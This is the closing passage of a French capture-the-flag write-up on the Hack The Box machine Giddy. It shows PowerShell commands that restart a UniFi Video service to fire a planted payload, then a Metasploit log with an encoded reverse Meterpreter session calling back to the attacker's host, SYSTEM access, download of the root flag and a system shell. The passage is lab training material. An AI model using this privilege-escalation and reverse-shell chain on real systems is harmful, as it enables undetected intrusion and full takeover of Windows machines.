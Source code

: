 ```plain
Start-Service -Name "Ubiquiti UniFi Video"
Stop-Service -Name "Ubiquiti UniFi Video"
```

Ainsi on obtient notre meterpreter depuis lequel on télécharge le flag (CF559C6C121F683BF3E56891E80641B1) et on peut si on le souhaite avoir une invite de commande sans être détecté :)   

```plain
msf exploit(multi/handler) > [*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: dltetexe) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: dltetexe) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 2 opened (10.10.13.82:443 -> 10.10.10.104:50086) at 2018-09-11 21:45:27 +0200

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : GIDDY
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cd c:/users/administrator/desktop
meterpreter > download root.txt
[*] Downloading: root.txt -> root.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): root.txt -> root.txt
[*] download   : root.txt -> root.txt
meterpreter > shell
Process 4972 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\users\administrator\desktop>whoami
whoami
nt authority\system
```

Victory
-------

Encore une fois un challenge très intéressant qui a permis d'utiliser différentes techniques de contournement de la sécurité sous Windows.

*Published February 16 2019 at 16:21*
